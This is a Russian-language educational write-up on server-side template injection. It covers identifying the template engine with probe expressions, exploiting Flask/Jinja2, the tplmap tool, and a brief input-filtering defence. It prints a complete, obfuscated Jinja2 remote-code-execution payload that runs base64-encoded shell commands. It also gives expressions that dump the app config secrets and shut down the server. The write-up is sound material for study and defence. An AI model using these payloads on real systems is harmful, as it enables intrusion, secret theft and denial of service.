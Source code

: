 # SSTI
  
  
  ## Описание
  Есть такой вид атак, как Template Injection (Внедрение шаблона). Данный вид атак делится на два вида: Server Side Template Injection (SSTI) и Client Side Template Injection(CSTI). То есть шаблонизаторы (в вебе) используются для того, чтобы отделить HTML код (представление данных) от кода языка. Шаблон – это файл, содержащий HTML и некоторые маркеры, позволяющий этот шаблон обработать и сформировать на его основе конечный HTML код.
  Из-за чего возникают уязвимость SSTI? Конечно же, из-за неверной обработки пользовательских данных.
  
  ## Классификация
  Классифицируются по шаблонизаторам: Smarty, Mako, Twig, and Jinja2.
  
  ## Условия
  - ОС: любая
  - язык: любой
  - компоненты: шаблонизатор
  - настройки: любые
  
  ## Детектирование
  Обнаружение 2 способами:  
  - Первый способ: пользовательский ввод помещается в шаблонное выражение.  
  - Второй способ: пользовательский ввод может быть помещён внутри шаблонного выражения, как правило, в качестве имени переменной.
  Идентификация:  
  Выяснить, какой шаблонизатор используется. Сделать это очень просто, так как есть готовая схема для этой цели. Этот процесс выглядит так:  
  ![](https://defcon.ru/wp-content/uploads/2016/11/1.png)  
  Нам всего-то нужно подставлять конкретные выражения и следить за ответом сервера. В некоторых случаях одно выражаение может приводить к разным ответам сервера (в зависимости от того, какой шаблонизатор используется). Например, {{7*’7′}} вернёт 49, если используется Twig, 7777777, если используется Jinja2 и не вернёт ничего, если шаблонизатор не используется.
  
  #### 1 шаг
  ![1](https://pp.userapi.com/c846121/v846121517/18bd00/2Po0PiSSPa8.jpg)  
  #### 2 шаг 
  ![2](https://pp.userapi.com/c846121/v846121517/18bd07/pR0f_0JxmBs.jpg)  
  #### 3 шаг
  ![3](https://pp.userapi.com/c846121/v846121517/18bd0e/KZD9VkHvts8.jpg)  
  #### Конечный вывод: 7777777. Мы имеем дело с Jinja2.
  
  
  ## Эксплуатация
  После того, как мы выяснили какой шаблонизатор используется, следующий наш шаг — чтение документации. Вот ключевые области на которые стоит обратить внимание:
  раздел «For Template Authors» описывает базовый синтаксис;
  «Security Considerations» — есть огромный шанс, что разработчики не читали данный раздел;
  список встроеных функций, методов, переменных;
  список дополнений/расширений — некоторый из них могут быть включены по умолчанию.
  В том случае, если в документации не будет говориться о встроенных переменных, то нам придётся их брутить. Нужные словари находятся в Burp Intruder и FuzzDB.
  ### Ручная эксплуатация
  Попробуем вызвать основные шаблоны. 
  
  ![self](https://pp.userapi.com/c846121/v846121517/18bcf9/B2iSScgkCMQ.jpg)  
  Посмотрим конфигурацию сервера:  
  
  ![config](https://pp.userapi.com/c849132/v849132517/112edb/szvDnHpBZw4.jpg)
  Узнаем скрытый в программном коде секрет:   
  
  ![secret](https://pp.userapi.com/c849132/v849132517/112eed/sPWNeku-cVI.jpg)
  #### Исполнение любых команд на сервере (с правами суперпользователя)
  Проверим выполнение последосвательности команд, закодировав их в base64 и urlencode.  
  #### Полностью запрос выглядит так:
  
  ```python
 %7B%7B6795544878%7D%7D%7B%7B%27%27%7D%7D%7B%25+set+d+%3D+%22eval%28__import__%28%27base64%27%29.urlsafe_b64decode%28%27X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnYVdRN2JITTdaV05vYnlBaWFXMGdhMjV2WTJ0cFpTd2dhVzBnZDJsdWJtVnlJU0lnUGo0Z2FHRmphMlZrTG5SNGREc2dZMkYwSUdoaFkydGxaQzUwZUhRPScpLmRlY29kZSgpKS5yZWFkKCk%3D%3D%27%29%29%22+%25%7D%7B%25+for+c+in+%5B%5D.__class__.__base__.__subclasses__%28%29+%25%7D+%7B%25+if+c.__name__+%3D%3D+%27catch_warnings%27+%25%7D%0A%7B%25+for+b+in+c.__init__.__globals__.values%28%29+%25%7D+%7B%25+if+b.__class__+%3D%3D+%7B%7D.__class__+%25%7D%0A%7B%25+if+%27eval%27+in+b.keys%28%29+%25%7D%0A%7B%7B+b%5B%27eval%27%5D%28d%29+%7D%7D%0A%7B%25+endif+%25%7D+%7B%25+endif+%25%7D+%7B%25+endfor+%25%7D%0A%7B%25+endif+%25%7D+%7B%25+endfor+%25%7D%7B%7B%27%27%7D%7D%7B%7B3601511735%7D%7D
 ```
 #### urldecode:
```python
{{6795544878}}{{''}}{% set d = "eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnYVdRN2JITTdaV05vYnlBaWFXMGdhMjV2WTJ0cFpTd2dhVzBnZDJsdWJtVnlJU0lnUGo0Z2FHRmphMlZrTG5SNGREc2dZMkYwSUdoaFkydGxaQzUwZUhRPScpLmRlY29kZSgpKS5yZWFkKCk='))" %}{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %} {% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval'](d) }}
{% endif %} {% endif %} {% endfor %}
{% endif %} {% endfor %}{{''}}{{3601511735}}
```
#### base64decode (открытие шелла):
```python
__import__('os').popen(__import__('base64').urlsafe_b64decode('aWQ7bHM7ZWNobyAiaW0ga25vY2tpZSwgaW0gd2lubmVyISIgPj4gaGFja2VkLnR4dDsgY2F0IGhhY2tlZC50eHQ=').decode()).read()
```
#### base64decode (передача последовательности необходимых команд):
```python
id;ls;echo "im knockie, im winner!" >> hacked.txt; cat hacked.txt
```
  Результат запроса:
  ![cmd](https://pp.userapi.com/c849132/v849132517/112efd/tuUyVE4ZbU0.jpg)
  Однако, данные действия возможно автоматизировать, используя консольную утилиту `tplmap`:
  ![tpl](https://pp.userapi.com/c849132/v849132517/112f27/l7Ak41yusFs.jpg)
  С помощью данной утилиты также возможно захватить управление в реальном времени: 
  ![tpl2](https://pp.userapi.com/c849132/v849132517/112f47/7Pm6007VLf8.jpg)
  ### Инструменты
  [Tplmap.](https://github.com/epinna/tplmap)
  
  ## Ущерб
* 1) Анализ объекта request, который является глобальным в фрейворке Flask (flask.request). Данный объект содержит ту же самую информацию, что и объект request, доступный через представление. Внутри объекта request находится объект environ. Объект request.environ представляет собой словарь объектов, имеющих отношение к серверной части. Один из элементов этого словаря – метод shutdown_server, который связан с ключом werkzeug.server.shutdown. В шаблон можно инжектировать выражение `{{ request.environ['werkzeug.server.shutdown']() }}` и спровоцировать DOS-атаку. Однако этот метод не доступен, если приложение запущено при помощи HTTP-сервера gunicorn. Так что уязвимость может присутствовать лишь на сервере, который используется в целях разработки.

* 2) Анализ объекта config, который, так же как и объект request, является глобальным в фреймворке Flask (`flask.config`). Данный объект представляет собой словарь со всеми переменными, связанными с конфигурацией приложения, в том числе строками для подключения к базе данных, учетными записями к сторонним сервисам, SECRET_KEY и т. д. Просмотр этих переменных осуществляется при помощи выражения `{{ config.items() }}` и не сложнее, чем инжектирование полезной нагрузки. Не спасает и хранение этих данных в переменных среды окружения, поскольку объект config содержит все переменные, связанные с конфигурацией, ПОСЛЕ обработки фреймворком. Помимо того что `config` представляет собой словарь, этот объект также является подклассом, содержащим несколько методов: `from_envvar`, `from_object`, `from_pyfile` и `root_path`.

* 3) Возможны:
- XSS (cross-site scripting)
- чтение файлов системы
- достижение RCE (remote code execution)
  
  ## Защита(?)
  ### Основные меры
  Имя может состоять только из букв латинского алфавита. Изменяем исходный код таким образом, чтобы игнорировать ненужные символы.  
  Исходный код:
  ![code](https://pp.userapi.com/c849132/v849132289/1166bd/K_7su5Rg3Kk.jpg)  
  
  Проверка работоспособности:  
  
  ![fil](https://pp.userapi.com/c849132/v849132289/1166a4/T8wirzD24kA.jpg)  
  
  Проверка работоспособности через tplmap:  
  
  ![tplm](https://pp.userapi.com/c849132/v849132289/1166c6/oNOZ7f7LDN8.jpg)  
  
